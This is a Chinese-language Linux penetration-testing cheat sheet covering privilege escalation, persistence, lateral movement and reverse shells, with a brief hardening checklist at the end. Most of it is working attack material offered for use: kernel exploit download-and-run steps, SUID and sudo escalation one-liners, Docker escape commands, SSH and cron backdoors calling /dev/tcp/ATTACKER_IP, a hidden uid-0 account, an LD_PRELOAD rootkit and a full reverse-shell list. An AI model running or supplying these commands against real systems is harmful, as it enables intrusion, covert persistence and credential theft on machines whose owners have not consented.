

# 🐧 Linux安全渗透测试全技巧

> **Linux 安全渗透测试**涵盖从初始访问、信息收集、权限提升、持久化控制到横向移动的完整攻击链。本文站在渗透测试视角，系统梳理 Linux 环境下的安全攻防技术与实战技巧，覆盖内核漏洞利用、SUID 提权、sudo 滥用、Capabilities、Docker 逃逸、SSH 隧道等核心手法。

---

## 📖 一、Linux 渗透测试基础

### 1.1 攻击链全景


| 阶段 | 目标 | 典型手法 |
|:---|:---|:---|
| 🚪 **初始访问** | 获取立足点 | Web RCE、SSH 爆破、钓鱼、弱口令 |
| 🔍 **信息收集** | 了解系统环境 | 内核版本、SUID 文件、计划任务、网络连接 |
| ⬆️ **权限提升** | 从普通用户 → root | 内核漏洞、SUID 提权、sudo 滥用、Docker 逃逸 |
| 🔒 **权限维持** | 长期控制 | SSH 后门、定时任务、Rootkit、WebShell |
| 🏃 **横向移动** | 扩大战果 | SSH 密钥窃取、ARP 扫描、凭据复用 |
| 🧹 **痕迹清理** | 消灭证据 | 清除日志、隐藏进程、时间戳修改 |

### 1.2 渗透测试前准备

```bash
# 确定 Linux 发行版和内核版本（提权的基础）
cat /etc/os-release
cat /etc/issue
uname -a

# 查看当前用户和权限
id
whoami
sudo -l  # 列出当前用户的 sudo 权限

# 查看系统位数
getconf LONG_BIT
arch
```

> 💡 **核心原则**：提权前必须先做信息收集，很多提权方式依赖特定内核版本或软件版本。

---

## 🔍 二、信息收集（Enumeration）

### 2.1 系统信息

```bash
# 内核与发行版信息
uname -a                # 内核版本、架构
cat /proc/version       # 内核编译信息
lsb_release -a          # 发行版详细信息
hostnamectl             # 主机名和系统信息

# 环境变量（可能泄露密码、API Key）
env
cat /etc/profile
cat /etc/bash.bashrc
cat ~/.bashrc
cat ~/.bash_profile

# 已安装的软件包
dpkg -l                 # Debian/Ubuntu
rpm -qa                 # RedHat/CentOS
```

### 2.2 用户与权限

```bash
# 当前用户
id
whoami
groups

# 所有用户
cat /etc/passwd
cat /etc/shadow          # 需要 root 权限
cat /etc/group

# 最近登录的用户
last
lastlog
w
who

# 可登录的用户
grep -E "bash|sh|zsh" /etc/passwd

# 空密码用户
awk -F: '($2 == "") {print}' /etc/shadow
```

### 2.3 SUID/SGID 文件（提权重点）

```bash
# 查找所有 SUID 文件（重点关注非系统默认的）
find / -perm -4000 -type f 2>/dev/null

# 查找 SGID 文件
find / -perm -2000 -type f 2>/dev/null

# 查找所有者和组相同的 SUID 文件
find / -perm -4000 -type f -o -perm -2000 -type f 2>/dev/null

# 列出拥有 Capabilities 的可执行文件
getcap -r / 2>/dev/null
```

> ⚠️ **重点关注**：常见的 SUID 提权二进制包括 `nmap`、`vim`、`find`、`bash`、`less`、`more`、`cp`、`mv`、`python`、`perl` 等。

### 2.4 计划任务（Cron）

```bash
# 系统计划任务
cat /etc/crontab
ls -la /etc/cron.d/
ls -la /etc/cron.daily/
ls -la /etc/cron.hourly/
ls -la /etc/cron.weekly/
ls -la /etc/cron.monthly/

# 用户计划任务
crontab -l

# 查看 anacron 配置
cat /etc/anacrontab

# 查找可写的计划任务脚本
find /etc/cron* -writable -type f 2>/dev/null
```

> 💡 **渗透技巧**：如果计划任务脚本是**可写**的，可以直接注入反弹 shell 命令，等待 cron 定时执行即可提权。

### 2.5 网络与进程

```bash
# 网络连接
netstat -tlnp           # 监听端口
netstat -anp            # 所有连接
ss -tlnp                # 现代版 netstat
ss -anp

# 正在运行的进程
ps aux                  # 所有用户进程
ps -ef                  # 标准格式
top -b -n 1             # 一次性的 top 输出

# 以 root 运行的进程
ps -U root -u root u

# 查看进程启动参数（可能包含密码）
cat /proc/[PID]/cmdline
cat /proc/[PID]/environ  # 环境变量中可能有密钥
```

### 2.6 敏感文件搜索

```bash
# 配置文件（密码、密钥）
find / -name "*.conf" -type f 2>/dev/null
find / -name "*.cfg" -type f 2>/dev/null
find / -name "config.php" -type f 2>/dev/null
find / -name "wp-config.php" -type f 2>/dev/null

# 密钥文件
find / -name "id_rsa" -o -name "id_dsa" -o -name "*.pem" 2>/dev/null
find / -name "*.key" -type f 2>/dev/null

# 历史命令（可能泄露密码）
cat ~/.bash_history
cat ~/.mysql_history
cat ~/.psql_history

# 日志文件
find / -name "*.log" -type f 2>/dev/null | head -20
cat /var/log/auth.log    # 认证日志（SSH 登录记录）
cat /var/log/syslog      # 系统日志
cat /var/log/messages    # 通用日志
```

### 2.7 自动化枚举工具

```bash
# LinPEAS - Linux 权限提升枚举脚本（最推荐）
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh && ./linpeas.sh

# LinEnum
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
chmod +x LinEnum.sh && ./LinEnum.sh

# Linux Exploit Suggester 2
wget https://raw.githubusercontent.com/jondonas/linux-exploit-suggester-2/master/linux-exploit-suggester-2.pl
perl linux-exploit-suggester-2.pl

# Linux Smart Enumeration
wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh
chmod +x lse.sh && ./lse.sh -l

# GTFO Bin（查找可滥用的二进制）
# https://gtfobins.github.io/
```

---

## ⬆️ 三、权限提升（Privilege Escalation）

### 3.1 内核漏洞提权

利用 Linux 内核漏洞直接从普通用户提升为 root，是最直接的提权方式。

**常用内核漏洞速查表：**

| 漏洞编号 | 影响内核版本 | 说明 |
|:---|:---|:---|
| **CVE-2016-5195** (DirtyCow) | Linux 2.6.22+ | 经典的写时复制竞态漏洞 |
| **CVE-2021-4034** (PwnKit) | pkexec 所有版本 | polkit 的 pkexec 本地提权 |
| **CVE-2022-0847** (DirtyPipe) | Linux 5.8 ~ 5.16.11 | 内核管道竞争条件 |
| **CVE-2023-2640** (OverlayFS) | Ubuntu 特定内核 | OverlayFS 权限提升 |
| **CVE-2024-1086** | Linux 3.15 ~ 6.1 | Netfilter 内核漏洞 |
| **CVE-2017-1000112** | Linux 4.8+ | UFO 漏洞（内存破坏） |
| **CVE-2023-32629** | Ubuntu 特定 | 本地提权漏洞 |
| **CVE-2022-2588** | Linux 5.x | 路由策略提权 |

**实战演示（DirtyPipe CVE-2022-0847）：**

```bash
# 1. 确认内核版本
uname -r  # 需在 5.8 ~ 5.16.11 之间

# 2. 下载利用 EXP
wget https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits/raw/main/exploit.c
gcc exploit.c -o exploit -lpthread
./exploit

# 3. 成功后获取 root shell
id
# uid=0(root) gid=0(root) groups=0(root)
```

**实战演示（PwnKit CVE-2021-4034）：**

```bash
# 1. 检查 pkexec 是否存在
which pkexec
ls -la /usr/bin/pkexec

# 2. 下载 EXP
wget https://github.com/berdav/CVE-2021-4034/raw/main/cve-2021-4034.c
gcc cve-2021-4034.c -o exploit
./exploit

# 3. 成功即获取 root shell
id
```

> ⚠️ **注意**：内核 EXP 可能造成系统崩溃或死机，在生产环境测试前务必做好备份或快照。

### 3.2 SUID 提权

当普通用户可执行的二进制文件设置了 SUID 位且属于 root 时，执行该文件将继承 root 权限。

**经典 SUID 提权二进制：**

| 二进制 | 提权命令 | 原理 |
|:---|:---|:---|
| **find** | `find / -exec whoami \;` | 利用 `-exec` 执行命令 |
| **vim** | `vim -c ':!/bin/bash'` | 从 vim 内执行 shell |
| **nmap** | `nmap --interactive` → `!sh` | nmap 交互模式 |
| **bash** | `bash -p` | 保持 SUID 权限 |
| **less/more** | `less /etc/passwd` → `!bash` | 从 less 执行 shell |
| **cp** | 覆盖 `/etc/shadow` 或 `/etc/passwd` | 文件复制替换 |
| **python/perl** | `python -c 'import os; os.setuid(0); os.system("/bin/bash")'` | 脚本语言提权 |
| **awk** | `awk 'BEGIN{system("/bin/bash")}'` | awk 执行系统命令 |
| **docker** | `docker run -v /:/mnt -it alpine chroot /mnt sh` | Docker 挂载根目录 |

**利用示例：**

```bash
# 案例 1：find 提权
find / -type f -exec /bin/bash -p \;  # 直接获取 root shell

# 案例 2：vim 提权
vim /etc/passwd                       # 以 root 权限编辑文件
# 在 vim 中执行 :!/bin/bash

# 案例 3：nmap 提权（老版本）
nmap --interactive
nmap> !sh

# 案例 4：bash 提权
bash -p
id  # 如果显示 euid=0，提权成功
```

### 3.3 Sudo 滥用提权

通过 `sudo -l` 查看当前用户可以以 root 权限执行哪些命令，利用这些命令提权。

**查看 sudo 权限：**

```bash
sudo -l
# 输出示例：
# User www-data may run the following commands on hostname:
#     (root) NOPASSWD: /usr/bin/find
#     (root) /usr/bin/vim
#     (root) /usr/bin/python
```

**常见 sudo 提权命令表：**

| sudo 允许的命令 | 提权方法 |
|:---|:---|
| `sudo find` | `sudo find / -exec /bin/bash \;` |
| `sudo vim` | `sudo vim -c ':!/bin/bash'` |
| `sudo python` | `sudo python -c 'import os; os.system("/bin/bash")'` |
| `sudo less/more` | `sudo less /etc/shadow` → `!bash` |
| `sudo awk` | `sudo awk 'BEGIN{system("/bin/sh")}'` |
| `sudo man` | `sudo man man` → `!bash` |
| `sudo git` | `sudo git -p help` → `!bash` |
| `sudo tcpdump` | `echo "id" \| sudo tcpdump -z ./script` |
| `sudo mount` | `sudo mount -o bind /bin/bash /bin/su` |
| `sudo cp` | 覆盖 `/etc/sudoers` 或 `/etc/passwd` |
| `sudo apt` | `sudo apt update -o APT::Update::Pre-Invoke::=/bin/sh` |
| `sudo pip` | `sudo pip install malicious-package` |
| `sudo docker` | `sudo docker run -v /:/mnt -it alpine chroot /mnt sh` |

**实战示例：**

```bash
# 通过 sudo python 提权
sudo python -c 'import pty; pty.spawn("/bin/bash")'

# 通过 sudo pip 安装恶意包提权
TF=$(mktemp -d)
echo "import os; os.setuid(0); os.system('/bin/bash')" > $TF/setup.py
sudo pip install $TF

# 通过 sudo tcpdump 提权
echo 'chmod +s /bin/bash' > /tmp/payload.sh
sudo tcpdump -z /tmp/payload.sh -w /tmp/dump.pcap
```

> 💡 **万能技巧**：使用 [GTFOBins](https://gtfobins.github.io/) 搜索任何 sudo 允许的二进制是否能提权。

### 3.4 Linux Capabilities 提权

Linux Capabilities 将 root 权限拆分为细粒度能力。某些文件可能有特殊 capabilities 可被利用。

```bash
# 列出具有 capabilities 的文件
getcap -r / 2>/dev/null

# 常见危险 capabilities
# cap_setuid+ep → 可以设置用户 ID
# cap_dac_override+ep → 可绕过文件权限检查
# cap_net_raw+ep → 可进行原始网络操作
# cap_sys_admin+ep → 系统管理权限（如 mount）
```

**利用 cap_setuid+ep 提权：**

```bash
# 如果 python 或 perl 有 cap_setuid
python -c 'import os; os.setuid(0); os.system("/bin/bash")'

# 如果 python3 有 cap_setuid
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

**利用 cap_dac_override 读取敏感文件：**

```bash
# 如果有 vim 或 python 具有 cap_dac_override 能力
# 可直接读取 /etc/shadow
```

### 3.5 Docker 容器逃逸

如果当前用户在 docker 组中，或者可以执行 docker 命令，可以直接逃逸到宿主机。

**检测方法：**

```bash
# 检查是否在 docker 组
groups
id

# 检查 docker socket
ls -la /var/run/docker.sock
find / -name "docker.sock" 2>/dev/null

# 检查是否在容器中
cat /proc/1/cgroup | grep -i docker
cat /proc/1/environ | grep -i container
```

**Docker 逃逸手法：**

| 手法 | 命令 | 前提 |
|:---|:---|:---|
| 🐳 **挂载根目录** | `docker run -v /:/mnt -it alpine chroot /mnt sh` | 有 docker 权限 |
| 🔑 **挂载 /etc** | `docker run -v /etc:/mnt alpine sh -c "echo 'root::0:0:root:/root:/bin/bash' > /mnt/passwd"` | 有 docker 权限 |
| 🕳️ **Docker Socket 挂载** | 如果容器内挂载了 docker.sock，可通过 API 控制宿主机 Docker | 容器内有 docker.sock |
| 🌍 **--privileged 模式** | 特权模式下可通过 `fdisk -l` 查看宿主机磁盘并挂载 | 特权容器 |
| ⚙️ **SYS_ADMIN Capability** | 具有 SYS_ADMIN 时可尝试 `nsenter` 逃逸 | 容器有 SYS_ADMIN cap |

**实战——利用 docker.sock 逃逸：**

```bash
# 如果容器内发现了 docker.sock
apt-get update && apt-get install -y docker.io
docker -H unix:///var/run/docker.sock run -v /:/mnt -it alpine chroot /mnt sh

# 或者直接通过 curl 调用 Docker API
curl -s --unix-socket /var/run/docker.sock \
  -X POST http://localhost/containers/create?name=escape \
  -H "Content-Type: application/json" \
  -d '{"Image":"alpine","Cmd":["chroot","/mnt","sh"],"Binds":["/:/mnt:rw"]}'
curl -s --unix-socket /var/run/docker.sock \
  -X POST http://localhost/containers/escape/start
```

**实战——特权容器逃逸：**

```bash
# 检查是否是特权容器
cat /proc/1/status | grep CapEff
# CapEff: 0000003fffffffff  → 特权容器（所有 Capabilities）

# 挂载宿主机磁盘
fdisk -l
mkdir /mnt/host
mount /dev/sda1 /mnt/host
chroot /mnt/host /bin/bash
```

### 3.6 计划任务提权

如果某个计划任务脚本是**可写**的，或者计划任务以 root 权限运行且引用了可被控制的脚本，则可利用提权。

```bash
# 1. 找到可写的计划任务脚本
find /etc/cron* -writable -type f 2>/dev/null

# 2. 写入反弹 shell
echo "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1" >> /etc/cron.daily/backup

# 3. 等待 cron 执行，或触发执行
# 也可以直接修改脚本内容为提权命令
```

**利用 PATH 劫持：**

如果计划任务使用了相对路径（如 `backup.sh` 而不是 `/usr/local/bin/backup.sh`），可创建同名恶意脚本到 `$PATH` 中。

```bash
# 查看 cron 中的脚本是否使用相对路径
cat /etc/crontab
# * * * * * root backup.sh  ← 没有绝对路径！

# 在 PATH 优先目录创建同名脚本
echo '#!/bin/bash
chmod +s /bin/bash' > /tmp/backup.sh
chmod +x /tmp/backup.sh
export PATH=/tmp:$PATH
# 等待 cron 执行
```

### 3.7 NFS 共享提权

如果 NFS 导出了可写目录且有 `no_root_squash` 选项，可在客户端创建 SUID root 文件。

```bash
# 在攻击机（kali）上
# 1. 查看 NFS 导出
showmount -e TARGET_IP

# 2. 挂载 NFS 共享
mount -t nfs TARGET_IP:/shared /mnt/nfs

# 3. 创建 SUID 文件（以 root 身份创建）
cp /bin/bash /mnt/nfs/bash
chmod +s /mnt/nfs/bash
chown root:root /mnt/nfs/bash

# 4. 在目标机上执行
/mnt/shared/bash -p
# id → euid=0(root)
```

### 3.8 通配符注入（Wildcard Injection）

当计划任务或脚本中使用 `tar`、`chmod`、`chown` 等命令配合通配符时，可利用文件名注入。

```bash
# 假设脚本有：tar cf backup.tar *
# 创建恶意文件名触发注入
echo '#!/bin/bash
chmod +s /bin/bash' > /tmp/payload.sh

# 通配符注入
touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh payload.sh"

# 等待 tar 执行，/bin/bash 将获得 SUID
```

---

## 🔒 四、权限维持（Persistence）

### 4.1 SSH 后门

```bash
# 1. 添加 SSH 公钥（最常用）
mkdir -p ~/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2E... attacker@kali" >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
chmod 700 ~/.ssh

# 2. 创建新 root 用户
useradd -m -u 0 -g 0 -s /bin/bash secretadmin
echo "secretadmin:password123" | chpasswd

# 3. SSH 软链接后门（利用 PAM）
ln -sf /usr/sbin/sshd /tmp/suidshell
/tmp/suidshell -oPort=2222
# 连接：ssh root@TARGET -p 2222 密码任意

# 4. SSH 配置后门
echo "PermitRootLogin yes" >> /etc/ssh/sshd_config
echo "PasswordAuthentication yes" >> /etc/ssh/sshd_config
systemctl restart sshd
```

### 4.2 定时任务后门

```bash
# 每分钟反弹 shell
(crontab -l 2>/dev/null; echo "* * * * * bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'") | crontab -

# 使用 @reboot 在启动时执行
(crontab -l 2>/dev/null; echo "@reboot /usr/local/bin/.hidden.sh") | crontab -
```

### 4.3 SUID 后门

```bash
# 给 bash 设置 SUID 位
chmod +s /bin/bash
# 普通用户执行 bash -p 即可获取 root shell

# 复制 bash 并隐藏
cp /bin/bash /tmp/.hidden
chmod +s /tmp/.hidden
# 使用：/tmp/.hidden -p
```

### 4.4 Rootkit 技术

| 类型 | 说明 | 检测难度 |
|:---|:---|:---|
| **LD_PRELOAD** | 通过预加载动态库 hook 系统调用 | ⭐ 低 |
| **内核模块（LKM）** | 直接加载内核模块 hook 系统调用表 | ⭐⭐⭐⭐ 高 |
| **Diamorphine** | 开源 LKM Rootkit，隐藏进程/文件 | ⭐⭐⭐ 中 |
| **Reptile** | 可持久化的内核 Rootkit | ⭐⭐⭐⭐ 高 |

**LD_PRELOAD Rootkit 示例：**

```c
// rootkit.c - hook open() 系统调用
#define _GNU_SOURCE
#include <dlfcn.h>
#include <string.h>

typedef int (*orig_open)(const char *pathname, int flags, mode_t mode);

int open(const char *pathname, int flags, mode_t mode) {
    // 隐藏包含 "h4ck3d" 的文件
    if (strstr(pathname, "h4ck3d")) {
        errno = ENOENT;
        return -1;
    }
    orig_open real_open = (orig_open)dlsym(RTLD_NEXT, "open");
    return real_open(pathname, flags, mode);
}
```

```bash
# 编译并安装
gcc -shared -fPIC rootkit.c -o rootkit.so -ldl
echo "/tmp/rootkit.so" >> /etc/ld.so.preload
```

---

## 🏃 五、横向移动

### 5.1 SSH 密钥窃取

```bash
# 寻找 SSH 私钥
find /home -name "id_rsa" -type f 2>/dev/null
find /root -name "id_rsa" -type f 2>/dev/null
find / -name "*.pem" -type f 2>/dev/null

# 查看 known_hosts 发现其他机器
cat ~/.ssh/known_hosts
cat ~/.ssh/config

# 使用窃取的密钥登录其他机器
ssh -i stolen_key user@target_ip
```

### 5.2 凭据窃取

```bash
# 内存中的明文密码（需要 root）
cat /etc/shadow
grep -r "password" /etc/ 2>/dev/null
grep -r "passwd" /var/www/ 2>/dev/null

# 从进程内存中提取密码
strings /proc/[PID]/environ
strings /proc/[PID]/cmdline

# 数据库凭据
find / -name "*.sql" -type f 2>/dev/null
find / -name "wp-config.php" -type f 2>/dev/null
```

### 5.3 内网扫描

```bash
# 查看 ARP 表
arp -a
cat /proc/net/arp

# 查看路由
route -n
ip route
netstat -rn

# 扫描内网（使用内置工具）
for ip in $(seq 1 254); do
  ping -c 1 192.168.1.$ip | grep "64 bytes" &
done

# 端口扫描
for port in 22 80 443 3306 6379 27017; do
  timeout 1 bash -c "echo > /dev/tcp/192.168.1.1/$port" 2>/dev/null && echo "Port $port open"
done
```

---

## 🛡️ 六、反弹 Shell 全技巧

### 6.1 常见反弹 Shell

```bash
# Bash
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'

# PHP
php -r '$s=fsockopen("ATTACKER_IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

# Netcat（目标可能没有 -e）
nc -e /bin/sh ATTACKER_IP 4444
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f

# Perl
perl -e 'use Socket;$i="ATTACKER_IP";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# OpenSSL 加密反弹（绕过 IDS）
# 攻击机：openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes
# 攻击机：openssl s_server -quiet -key key.pem -cert cert.pem -port 4444
# 目标机：mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect ATTACKER_IP:4444 > /tmp/s; rm /tmp/s
```

### 6.2 反弹 Shell 升级（TTY）

```bash
# 升级为交互式 TTY（重要）
python -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'

# 完整 TTY 升级
Ctrl+Z  # 后台挂起
stty raw -echo; fg
reset
export SHELL=/bin/bash
export TERM=xterm-256color
stty rows 50 columns 120
```

---

## 🔧 七、Linux 安全加固检查清单

### 7.1 系统加固

| 项目 | 检测方法 | 加固措施 |
|:---|:---|:---|
| 🔑 **SSH 配置** | `cat /etc/ssh/sshd_config` | 禁用 root 登录、禁止密码登录、使用密钥 |
| 🔒 **密码策略** | `cat /etc/login.defs` | 设置密码复杂度、有效期 |
| 🧱 **防火墙** | `iptables -L`、`ufw status` | 仅开放必要端口 |
| 🛡️ **SELinux/AppArmor** | `getenforce`、`aa-status` | 启用强制访问控制 |
| 🔐 **文件权限** | `ls -la /etc/shadow` | shadow 文件权限 640，passwd 644 |

### 7.2 内核安全

```bash
# 检查内核参数
sysctl -a | grep -E "kernel.dmesg_restrict|kernel.kptr_restrict|kernel.randomize_va_space"

# 推荐配置
# kernel.dmesg_restrict = 1      # 限制 dmesg 信息
# kernel.kptr_restrict = 2       # 隐藏内核指针
# kernel.randomize_va_space = 2  # 全地址空间随机化（ASLR）
# net.ipv4.tcp_syncookies = 1    # SYN Cookie 防御
# net.ipv4.conf.all.rp_filter = 1 # 反向路径过滤
```

### 7.3 常见攻击面加固

| 攻击面 | 加固措施 |
|:---|:---|
| SUID 文件 | 移除不必要的 SUID 位：`chmod -s /usr/bin/[binary]` |
| 计划任务 | 限制 crontab 的写权限，使用绝对路径 |
| Docker 安全 | 用户不加入 docker 组，启用 AppArmor/Seccomp |
| sudo 配置 | 最小化 sudo 权限，使用 `NOPASSWD` 需谨慎 |
| 内核漏洞 | 及时更新内核版本，使用自动安全更新 |

---

## 📋 八、渗透测试检测流程

### 8.1 提权检测速查表



### 8.2 关键检测点清单

- [x] 检查 **内核版本** 是否存在已知提权漏洞
- [x] 检查 **SUID/GUID 文件** 是否存在可提权二进制
- [x] 检查 **sudo 权限** (`sudo -l`)，寻找可提权的命令
- [x] 检查 **Capabilities** (`getcap -r /`) 是否存在危险能力
- [x] 检查 **计划任务** 是否可写或可劫持
- [x] 检查 **/etc/shadow** 是否可读
- [x] 检查 **Docker 组** 成员身份
- [x] 检查 **NFS 共享** 是否有 `no_root_squash`
- [x] 检查 **SSH 私钥** 是否可读
- [x] 检查 **环境变量** 是否包含敏感信息
- [x] 检查 **历史命令文件** 是否泄露密码
- [x] 检查 **可写目录** 是否在 `$PATH` 中

### 8.3 常用工具速查

| 工具 | 用途 | 下载地址 |
|:---|:---|:---|
| **LinPEAS** | 全自动权限提升枚举 | `https://github.com/peass-ng/PEASS-ng` |
| **LES (Linux Exploit Suggester)** | 内核漏洞建议 | `https://github.com/mzet-/linux-exploit-suggester` |
| **GTFOBins** | 提权二进制速查 | `https://gtfobins.github.io/` |
| **PEASS-NG** | 权限提升枚举套件 | `https://github.com/peass-ng/PEASS-ng` |
| **Chisel** | 内网隧道工具 | `https://github.com/jpillora/chisel` |
| **Fscan** | 内网综合扫描 | `https://github.com/shadow1ng/fscan` |
| **Empire** | 后渗透框架 | `https://github.com/BCSecurity/Empire` |

---

## 🔗 关联文件

| 文件 | 关联说明 |
|:---|:---|
| [命令注入全技巧](11-command-injection.md) | Linux 命令注入与 RCE |
| [安全配置错误（A05）全技巧](24-a05-security-misconfiguration.md) | Linux 安全配置加固 |
| [身份认证失效（A07）全技巧](26-a07-auth-failures.md) | Linux 认证绕过 |
| [安全日志与监控失效（A09）全技巧](28-a09-logging-monitoring.md) | Linux 日志审计 |
| [云上安全渗透测试全技巧](34-cloud-pentest.md) | 云主机 Linux 渗透测试 |
